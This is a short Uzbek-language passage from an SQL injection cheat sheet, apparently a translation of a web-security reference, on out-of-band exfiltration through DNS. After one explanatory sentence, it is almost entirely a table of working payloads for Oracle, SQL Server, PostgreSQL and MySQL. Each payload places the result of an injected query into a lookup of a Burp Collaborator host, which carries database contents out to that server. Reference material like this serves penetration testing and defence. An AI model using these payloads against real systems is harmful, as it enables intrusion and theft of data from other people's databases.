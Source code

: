 Siz ineksiyalangan so'rov natijalarini o'z ichiga olgan tashqi domenga DNS qidiruvini amalga oshirish uchun ma'lumotlar bazasini keltirib chiqarishingiz mumkin. Buning uchun siz hujumda foydalanadigan subdomenni yaratishda Burp Collabrator clientidan foydalanib subdomen yaratishingiz kerak, Keyin har qanday DNS so'rov ma'lumotlarning tafsilotlarini olish uchun kollaoratator serveridan foydalaning.

| Oracle     | `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                                                                                                                                                                        |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                               |
| PostgreSQL | <p><code>create OR replace function f() returns void as $$</code><br><code>declare c text;</code><br><code>declare p text;</code><br><code>begin</code><br><code>SELECT into p (SELECT YOUR-QUERY-HERE);</code><br><code>c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';</code><br><code>execute c;</code><br><code>END;</code><br><code>$$ language plpgsql security definer;</code><br><code>SELECT f();</code></p> |
| MySQL      | <p>Bu usul faqat Windowsda ishlaydi.<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                             |

####
